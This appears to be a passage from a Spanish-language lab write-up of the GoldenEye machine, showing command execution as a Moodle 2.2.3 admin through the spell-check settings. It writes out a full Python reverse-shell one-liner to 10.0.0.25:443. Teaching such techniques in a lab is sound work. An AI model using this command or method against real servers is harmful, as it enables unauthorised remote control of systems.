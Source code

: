 ![""](/assets/images/vh-goldeneye/goldeneye-web12.png)

Como nos encontramos como el usuario **admin**, podemos modificar algunas cosas del gestor del contenido, por lo que si buscamos un exploit público asociado a **Moodle 2.2.3** encontramos payloads del framework de metasploit; pero en este sitio cristiano no ocupamos ese tipo de cosas, por lo que vamos a analizar lo que hace el [exploit](https://github.com/offensive-security/exploitdb/blob/master/exploits/linux/remote/29324.rb).

- Primero nos dice que debemos ir a la ruta `/gnocertdir/admin/settings.php?section=editorsettingstinymce` y modificar el valor de **Spell engine** por **PSpellShell** y guardamos los cambios.

![""](/assets/images/vh-goldeneye/goldeneye-web13.png)

- Después debemos ir a `/gnocertdir/admin/settings.php?section=systempaths` y en el parámetro **Path to aspell** debemos poner nuestro comando que nos entable una reverse shell, para este caso utilizaremos python con la siguiente instrucción: `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.25",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'` y guardamos los cambios.
